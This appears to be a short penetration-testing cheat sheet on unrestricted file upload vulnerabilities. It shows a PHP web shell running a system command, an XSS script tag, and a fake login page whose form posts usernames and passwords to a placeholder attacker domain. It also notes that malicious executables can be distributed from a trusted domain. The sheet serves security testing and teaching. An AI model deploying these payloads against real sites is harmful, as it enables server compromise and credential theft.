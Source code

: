 # Unrestricted File Upload

## Table of Contents
- [Upload a web shell](#upload-a-web-shell)
- [Upload a file with an HTML extension](#upload-a-file-with-an-html-extension)
- [Distribute malicious files](#distribute-malicious-files)

## Upload a web shell

### Arbitrary commands can be executed with the web service's execute privileges.[^1]

- Execute system commands
   ```php
    <?php system('whoami'); ?>
   ```

## Upload a file with an HTML extension

### Attacks such as XSS or phishing can be performed on trusted domains.

- XSS
   ```html
    <script>alert()</script>
   ```

- Phishing
   ```html
    <html>
    <title>Fake Login Page</title>
    <body>
        <h2>Login to Your Account</h2>
        <form action="http://[ATTACKER-DOMAIN]" method="POST">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <input type="submit" value="Login">
        </form>
    </body>
    </html>
   ```
   <img src="./resources/Upload_a_file_with_an_HTML_extension_phishing.png" width="50%" height="50%">

## Distribute malicious files

### Malicious files can be distributed by leveraging the domain's reputation.

- exe, bat, dmg...
   

[^1]: It is possible only when files with the same extension as the language running on the service can be uploaded, and execute permissions are granted to the file.
